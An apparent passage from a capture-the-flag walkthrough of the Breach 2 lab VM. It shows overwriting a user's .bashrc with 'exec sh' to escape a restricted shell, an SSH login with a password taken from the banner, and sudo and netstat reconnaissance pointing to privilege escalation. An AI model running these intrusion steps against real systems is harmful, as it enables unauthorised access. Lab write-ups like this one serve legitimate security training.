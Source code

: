 	# make less more friendly for non-text input files, see lesspipe(1)
	#[ -x /usr/bin/lesspipe ] && eval "$(SHELL=/bin/sh lesspipe)"

	# set variable identifying the chroot you work in (used in the prompt below)
	if [ -z "${debian_chroot:-}" ] && [ -r /etc/debian_chroot ]; then
	    debian_chroot=$(cat /etc/debian_chroot)
	fi


### Modify .bashrc

	echo 'exec sh ' > /home/peter/.bashrc

## ssh connection with peter

	└─$ ssh peter@192.168.110.151 -p 65535
	#############################################################################
	#                  Welcome to Initech Cyber Consulting, LLC                 #
	#                 All connections are monitored and recorded                #
	#                     Unauthorized access is encouraged                     #
	#             Peter, if that's you - the password is in the source.         #
	#          Also, stop checking your blog all day and enjoy your vacation!   # 
	#############################################################################
	peter@192.168.110.151's password: inthesource

	$ sudo -l
	Matching Defaults entries for peter on breach2:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

	User peter may run the following commands on breach2:
	    (root) NOPASSWD: /etc/init.d/apache2

	$ netstat -tnl
	Active Internet connections (only servers)
	Proto Recv-Q Send-Q Local Address           Foreign Address         State
	tcp        0      0 0.0.0.0:65535           0.0.0.0:*               LISTEN
	tcp        0      0 0.0.0.0:41311           0.0.0.0:*               LISTEN
	tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
	tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN
	tcp        0      0 127.0.0.1:2323          0.0.0.0:*               LISTEN
	tcp6       0      0 :::47334                :::*                    LISTEN
	tcp6       0      0 :::111                  :::*                    LISTEN
	tcp6       0      0 :::80                   :::*                    LISTEN
